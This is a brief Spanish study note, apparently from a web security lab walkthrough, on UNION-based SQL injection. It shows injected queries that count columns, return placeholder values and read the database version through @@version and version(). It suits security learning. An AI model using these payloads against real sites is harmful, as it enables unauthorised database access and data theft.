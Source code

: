 ![](/img2/Pasted%20image%2020250707154113.png)

> Para ver la versión de la base de datos tenemos dos opciones: @@version, version()

- Injection (OPTION 1)

```sql
SELECT * FROM products WHERE category = 'Gifts' order by 2-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1','2'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1',@@version-- -' AND released = 1
```

- Injection (OPTION 2)

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1',version()-- -' AND released = 1
```

## Enumeración de bases de datos en motores no Oracle || SQL injection attack, listing the database contents on non-Oracle databases
